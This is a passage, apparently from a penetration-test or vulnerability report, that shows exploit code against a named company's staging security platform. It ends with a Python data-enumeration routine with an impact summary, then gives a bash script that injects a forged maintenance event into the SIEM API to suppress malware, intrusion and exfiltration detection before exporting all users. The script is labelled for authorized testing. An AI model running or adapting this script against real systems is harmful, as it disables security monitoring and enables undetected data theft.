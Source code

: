 ```python
        results = exploit.enumerate_tenant_data(resource)
        all_results.extend(results)
    
    # Generate impact assessment
    impact = exploit.generate_impact_report(all_results)
    
    print("\n📊 EXPLOITATION IMPACT ASSESSMENT")
    print("=" * 50)
    print(f"Total Exposed Records: {impact['total_exposed_records']:,}")
    print(f"Exposed Tenants: {impact['exposed_tenants']}")
    print(f"Estimated GDPR Fines: €{impact['estimated_financial_impact']['gdpr_fines']:,}")
    print(f"Customer Churn Risk: ${impact['estimated_financial_impact']['customer_churn']:,}")
    print(f"Total Financial Impact: ${sum(impact['estimated_financial_impact'].values()):,}")
```

### 9.2 SIEM Manipulation Exploit

```bash
#!/bin/bash
# SIEM/SOAR Security Control Manipulation Exploit
# WARNING: FOR AUTHORIZED TESTING ONLY

echo "🚨 SIEM/SOAR Security Control Manipulation Test"
echo "⚠️  FOR AUTHORIZED PENETRATION TESTING ONLY"

STAGING_URL="https://staging.isectech.com"
AUTH_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9..."

# Phase 1: Inject malicious security event to disable monitoring
echo "Phase 1: Injecting malicious security event..."
curl -X POST "$STAGING_URL/api/siem/events" \
  -H "Authorization: Bearer $AUTH_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "event_type": "system_maintenance",
    "priority": "info",
    "source": "system_admin", 
    "suppress_alerts": true,
    "override_rules": [
      "malware_detection",
      "intrusion_detection",
      "data_exfiltration_detection",
      "privilege_escalation_detection"
    ],
    "metadata": {
      "maintenance_window": "2025-08-06T00:00:00Z to 2025-08-06T23:59:59Z",
      "affected_systems": "*",
      "disable_monitoring": true,
      "justification": "Critical system maintenance"
    }
  }'

echo -e "\n✅ Malicious event injected. Security monitoring disabled."

# Phase 2: Validate monitoring suppression
echo -e "\nPhase 2: Validating monitoring suppression..."
sleep 5

# Test if alerts are suppressed by triggering suspicious activity
curl -X GET "$STAGING_URL/api/admin/users?export=all" \
  -H "Authorization: Bearer $AUTH_TOKEN" \
  > /dev/null

```